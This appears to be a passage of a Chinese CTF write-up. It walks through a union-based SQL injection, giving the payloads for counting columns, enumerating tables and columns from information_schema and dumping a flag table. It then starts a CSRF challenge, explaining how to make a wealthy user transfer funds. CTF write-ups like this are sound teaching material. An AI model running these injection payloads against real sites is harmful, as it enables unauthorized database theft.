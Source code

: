 没什么好说的了，开始注入，先判断一波回显位数

```
?id=0' order by 4 %23	//回显位为四位
```

获取库

```
?id=0' union select 1,2,3,database() %23
```

获取表

```
?id=0' union select 1,2,3,group_concat(table_name) from information_schema.tables where table_schema="geek_sql" %23
```

获取字段

```
?id=0' union select 1,2,3,group_concat(column_name) from information_schema.columns where table_name="fllllag"%23
id,fllllllag
```

获取值

```
?id=0' union select 1,2,3,group_concat(id,':',fllllllag) from fllllag %23
```



### flagshop

#### 考点：CSRF攻击

这道题提示我们需要在页面里搞到钱，买到flag，关键点就是**钱从哪来**？

让我们现再仔细观察一下页面，我们每一个账号都有一个身份id，注册用户的身份是一个普通的用户

在主页里我们可以看到一个财务管理员的id：==Longlong==（待会我们会用到这个ID），如果搞到他的账户登录，或者让他打钱给我们我们不就有钱了，因为我们可以看到一个**转账的页面**

题目的提示也验证了我们的猜想，而且但也堵上了第一条路

> 1.No sessionid!Don't Try to be admin(robot?) 2.Do you know csrf?
>
> 1.没有sessionid！不要尝试成为管理员（机器人？）2.您知道csrf吗？



**我们先了解一下CSRF**

> 是一种挟制用户在当前已登录的Web应用程序上执行非本意的操作的攻击方法。跟跨网站脚本（XSS）相比，**XSS** 利用的是用户对指定网站的信任，CSRF 利用的是网站对用户网页浏览器的信任
>
> 跨站请求攻击，简单地说，是攻击者通过一些技术手段欺骗用户的浏览器去访问一个自己曾经认证过的网站并运行一些操作（如发邮件，发消息，甚至财产操作如转账和购买商品）。由于浏览器曾经认证过，所以被访问的网站会认为是真正的用户操作而去运行。这利用了web中用户身份验证的一个漏洞：**简单的身份验证只能保证请求发自某个用户的浏览器，却不能保证请求本身是用户自愿发出的**。

总结一下我们的攻击手段，我们需要挟制一个有钱的用户，让他打钱到我们的账户中，这样我们就有钱买flag了

